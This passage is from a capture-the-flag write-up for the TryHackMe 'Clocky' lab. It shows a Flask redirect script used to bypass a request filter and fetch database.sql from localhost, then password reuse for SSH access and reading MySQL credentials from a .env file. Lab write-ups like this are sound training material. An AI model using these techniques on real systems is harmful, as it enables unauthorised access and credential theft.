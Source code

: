 After some research on portswigger, we can discover that we can bypass this filter by using redirection. So, we can write simple python script to get request on our web server and then redirect it to machine's server to get the `database.sql` file in the following manner:
```python
from flask import Flask, redirect, request
app = Flask(__name__)

@app.route('/', methods=['GET'])
def redirect_me():
	redirect_url = 'http://127.0.0.1/database.sql'
	return redirect(redirect_url, code=302)

if __name__ == '__main__':
	app.run(host='0.0.0.0', port=7777, debug=True)
```

Now, we can just make request to ourself and can get the flag :
![Flag 4](/assets/images/TryHackMe-Clocky/flag_4.png)

## Flag 5

In the output of `database.sql`, we can get password and try it to get `SSH` shell as there is possibility of password reuse. In the `app.py` file, we have got two usernames: `jane` and `clarice`.
After trying password for both the users, we got shell as `clarice` and also get fifth flag in her home directory.

## Flag 6

After running linpeas, we can get mysql database password in `/home/clarice/app/.env` file.
We can login to mysql database with user `clocky_user` (which we got from `app.py`) and password that we just found.

By looking in mysql database and user table, we can see that we have few users with password hashes and we can also see there is one plugin called `caching_sha2_password` is used for authentication. In the User column, there is one interesting user called "dev".
```console
mysql> select User from user;
+------------------+
| User             |
+------------------+
| clocky_user      |
| dev              |
| clocky_user      |
| debian-sys-maint |
| dev              |
| mysql.infoschema |
| mysql.session    |
| mysql.sys        |
| root             |
+------------------+
9 rows in set (0.00 sec)

```
